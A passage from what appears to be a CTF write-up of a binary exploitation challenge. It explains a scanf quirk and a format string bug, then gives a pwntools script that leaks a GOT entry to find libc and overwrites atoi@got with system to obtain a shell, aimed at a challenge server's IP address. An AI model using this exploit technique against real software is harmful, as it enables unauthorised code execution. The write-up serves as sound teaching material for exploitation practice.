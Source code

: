 So, if lucky number is 0x44, and we input "-" when entering choice. The choice is still 0x44!! (scanf will not change the value of 0x44 if we enter "-"). The probability is 1/100 :)).

What do we do next

![image](https://hackmd.io/_uploads/Syzo-6ogyg.png)

We can use format string bug (input "-") multiple times. First, leak GOT to get the address of libc and use libc.rip to find the libc version. Then, overwrite atoi@got to the address of the system. Finally, enter "1" to enter the play_401480() function. In the play_401480() function, it will call the sub_4013BB() function.

![image](https://hackmd.io/_uploads/Sk7izTolJx.png)

In read, we enter "/bin/sh\x00". Then atoi(buf) will be equivalent to system(buf) => system("/bin/sh")


![image](https://hackmd.io/_uploads/rk8Vmpil1e.png)


Script
```python=0
#!/usr/bin/python3

from ctypes import CDLL
from pwn import *

context.binary = elf = ELF("./chal_patched")



while True:
	#r = process(elf.path)
	r = remote("152.69.210.130", 2004)

	r.recvuntil(b"2. Exit\n")
	r.sendline(b"-")

	test = r.recv(5)
	if test == b"Enter":
		break

	r.close()



payload = b"%7$s".ljust(8, b"\x00")
payload += p64(elf.got['printf'])
r.sendlineafter(b"your name: ", payload)

leak = u64(r.recv(6)+b"\x00"*2)
print("[*] leak: ", hex(leak))

libc_addr = leak - 0x606f0
system = libc_addr + 0x50d70


#### overwrite got
fmt_payload = fmtstr_payload(6, {elf.got['atoi'] : system}, write_size='short')

r.recvuntil(b"2. Exit\n")
r.sendline(b"-")
r.sendlineafter(b"your name: ", fmt_payload)


```